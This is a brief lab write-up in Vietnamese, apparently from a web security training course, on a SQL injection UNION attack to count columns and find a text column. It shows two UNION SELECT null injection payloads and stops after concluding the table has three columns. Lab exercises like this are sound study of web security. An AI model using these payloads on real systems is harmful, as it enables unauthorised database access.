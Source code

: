![alt text](image-14.png)

### Lab: SQL injection UNION attack, finding a column containing text
Nhiệm vụ: Sử dụng UNION Attack để tìm xem cột nào là cột dạng text 
Thử với 'UNION SELECT null, null--
 ![alt text](image-30.png)
Thử với 'UNION SELECT null, null, null--, thấy web không bị lỗi. Như vậy bảng này có 3 cột